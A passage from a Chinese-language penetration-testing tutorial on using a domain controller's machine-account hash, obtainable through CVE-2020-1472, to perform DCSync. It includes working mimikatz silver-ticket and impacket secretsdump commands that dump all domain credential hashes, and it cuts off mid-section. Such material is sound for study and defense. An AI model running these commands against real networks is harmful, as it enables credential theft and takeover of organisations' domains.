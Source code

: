 参考资料：

https://www.secura.com/pathtoimg.php?id=2055

CVE-2020-1472能够在未授权的状态下远程修改目标计算机帐户的口令hash

**注：**

CVE-2020-1472只能修改域控制器NTDS.dit文件中保存的计算机帐户hash，无法修改注册表中保存的本地计算机帐户hash

当域控制器中NTDS.dit文件和注册表文件的计算机帐户口令hash不同步时，有可能影响系统的正常功能

## 0x04 使用MachineAccount实现DCSync
---

例如，我们获得了域控制器`DC1`的计算机帐户口令hash为`7da530fba3b15a2ea21ce7db8110d57b`

### 1.使用mimikatz

这里需要制作白银票据(Silver Ticket)，接着获得LDAP服务的访问权限，细节可参考之前的文章《域渗透——Pass The Ticket》

命令示例：

```
mimikatz "kerberos::golden /domain:test.com /sid:S-1-5-21-254706111-4049838133-2416586677 /target:DC1.test.com /service:LDAP /rc4:7da530fba3b15a2ea21ce7db8110d57b /user:krbtgt /ptt" "lsadump::dcsync /domain:test.com /all /csv" exit
```

在细节上需要注意以下方面：

- 只能在域内计算机上运行，不支持域外
- /sid表示域的sid，获取方法可参考之前的文章[《渗透基础——活动目录信息的获取》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-%E6%B4%BB%E5%8A%A8%E7%9B%AE%E5%BD%95%E4%BF%A1%E6%81%AF%E7%9A%84%E8%8E%B7%E5%8F%96/)
- /rc4表示计算机帐户的NTLM hash
- /user:krbtgt表示伪造成用户krbtgt，生成票据

**注：域sid的简单获取方法**

任一域用户的sid去除最后一位就是域的sid

### 2.使用secretsdump

命令示例：

```
python secretsdump.py -hashes :7da530fba3b15a2ea21ce7db8110d57b test/DC1$@192.168.1.1
```

在细节上需要注意以下方面：

- secretsdump支持从域外的计算机连接至域控制器
- 如果使用域内普通计算机帐户的口令hash连接对应的计算机，那么会失败，提示`rpc_s_access_denied`
- 可以通过[wmiexec.py](https://github.com/SecureAuthCorp/impacket/tree/0b46f198042626a1ecd2846d22db355453e29c03/examples)或[smbexec.py](https://github.com/SecureAuthCorp/impacket/blob/0b46f198042626a1ecd2846d22db355453e29c03/examples/smbexec.py)远程执行cmd命令

命令示例：
